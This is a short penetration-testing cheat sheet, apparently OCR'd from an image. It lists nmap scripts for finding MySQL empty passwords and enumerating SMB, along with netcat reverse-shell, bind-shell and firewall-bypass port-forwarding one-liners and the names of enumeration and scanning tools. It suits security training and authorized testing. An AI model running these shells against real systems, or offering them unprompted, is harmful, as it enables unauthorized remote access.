 nmap -sV --script=mysql-empty-password [IP]

checks for MySQL accounts with empty passwords

nmap --script smb-os-discovery,smb-enum-shares,smb-enum-users -p445 [IP]

SMB discovery

ping

netcat (nc)

Create a listener and then receive (or send) files

nc -l -p 1234 > received_file.txt (or nc -l -p 1234 < received_file.txt)

Reverse Shell: On the attacker machine, listen for incoming connections:

nc -lvp 4444

On the victim machine, create a reverse shell:

nc target_ip 4444 -e /bin/bash # Linux

nc target_ip 4444 -e cmd.exe # Windows

Bind Shell: The victim machine opens a shell that the attacker connects to:

nc -lvp 4444 -e /bin/bash

The attacker connects to the bind shell:

nc victim_ip 4444

Port Forwarding: You can set up port forwarding with netcat, which can be useful when bypassing firewalls or accessing restricted services:

nc -lvp 1234 | nc target_ip 80

Service enumeration

nmap

enum4linux

Bloodhound

Powerview

smbmap

ldapdomaindump

dirb / gobuster

scan a web server for directories

### 3. Vulnerability Identification

Tools

Nessus

OpenVAS
